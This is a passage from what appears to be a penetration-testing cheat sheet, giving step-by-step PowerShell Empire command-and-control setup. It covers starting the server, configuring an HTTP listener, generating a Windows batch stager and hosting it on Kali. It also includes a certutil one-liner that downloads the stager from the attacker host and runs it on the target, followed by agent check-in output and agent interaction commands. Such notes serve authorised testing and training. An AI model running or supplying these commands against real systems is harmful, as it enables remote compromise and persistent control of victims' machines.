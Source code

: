 #### 8.6.1. Prepare PowerShell Empire

Start Empire server on Kali: `powershell-empire server`

Start Empire client on Kali: `powershell-empire client`

#### 8.6.2. Create a listener

|   |   |
|---|---|
|Select listener|`uselistener http`<br>☝️ To see the list of listeners: type `uselistener ` (don't forget the space) and press `tab`|
|Select the IP address to listen on|`set Host 192.168.17.10`|
|Select the port to listen on|`set Port 8080`|
|Name the listener|`set Name http_1`|

<details><summary>Example output</summary></details>

#### 8.6.3. Generate stager

|   |   |
|---|---|
|Select stager|`usestager windows/launcher_bat`<br>☝️ To see the list of stagers: type `usestager ` (don't forget the space) and press `tab`|
|Select the listener to associate stager with|`set Listener <Name>`|

<details><summary>Example output</summary></details>

Prepare stager in Kali web server: `cp /var/lib/powershell-empire/empire/client/generated-stagers/launcher.bat /var/www/html`

Download and run stager in target: `certutil.exe /urlcache /f /split http://$KALI/launcher.bat %TEMP%\launcher.bat && %TEMP%\launcher.bat`

Verify listener hooked:

```cmd
[+] New agent XM8LSE5D checked in
[*] Sending agent (stage 2) to XM8LSE5D at 192.168.84.43
```

#### 8.6.4. Interact with agent

|   |   |
|---|---|
|List agents|`agents`|
|Connet to an agent|`interact <Name>`|

<details><summary>Example output</summary></details>

## 9. Active Directory

### 9.0. Domain enumeration
